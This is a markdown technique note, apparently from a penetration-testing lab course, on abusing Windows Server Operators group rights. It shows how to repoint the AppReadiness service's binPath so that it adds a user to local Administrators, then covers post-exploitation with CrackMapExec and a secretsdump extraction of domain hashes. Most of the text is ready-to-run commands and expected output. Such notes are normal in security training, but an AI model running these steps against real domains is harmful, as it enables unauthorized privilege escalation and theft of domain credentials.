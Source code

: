 ### Technique Name:

Server Operators
### Summary:

Members of the `Server Operators` group have elevated rights on domain systems, including the ability to log on locally to Domain Controllers, manage services, and leverage `SeBackupPrivilege` and `SeRestorePrivilege`. This privilege set enables indirect privilege escalation paths. One method involves modifying the binary path of a trusted service (like AppReadiness) to execute arbitrary commands with SYSTEM privileges.
### Conditions:

- Membership in the `Server Operators` group    
- Ability to modify and start services (e.g., AppReadiness)
- Target service runs as `LocalSystem`
- Local user on a Domain Controller or high-value server
### Enumeration:

```cmd
# Confirm privileges
whoami /priv

# Identify accessible services and their permissions
sc qc AppReadiness
c:\Tools\PsService.exe security AppReadiness

# Confirm lack of admin privileges
net localgroup Administrators
```

### Exploitation:

#### 1. Modify Service Binary to Add User to Administrators

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

#### 2. Start the Service to Trigger the Command

```cmd
sc start AppReadiness
```

> Although the service fails to start (Error 1053), the command inside `binPath` gets executed successfully.

#### 3. Confirm Exploit Success

```cmd
net localgroup Administrators
```

Expected Output:

```
Administrator
Domain Admins
Enterprise Admins
server_adm
```

### Post-Exploitation:

- Use new admin rights to dump credentials, access NTDS.dit, or lateral movement
- Example using CrackMapExec:

```bash
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

- Dump domain hashes:    

```bash
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

Expected Output:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```

- Clean up by reverting the `binPath` or restoring the original configuration (optional but recommended during authorized assessments)
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Privileged_Groups 